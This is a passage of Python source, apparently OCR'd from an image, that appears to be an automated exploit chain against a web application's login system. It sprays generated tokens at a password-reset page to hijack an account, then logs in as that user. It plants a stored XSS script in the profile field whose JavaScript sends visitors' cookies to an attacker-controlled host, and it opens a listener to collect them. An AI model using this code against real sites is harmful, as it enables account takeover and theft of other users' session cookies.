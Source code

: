 ```py
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:8888/' + document.cookie, true);\n" %lhost
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost):
    print("[+] Listener on port 8888 to receive the token ![+]")
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,8888))
    s.listen()
    
```
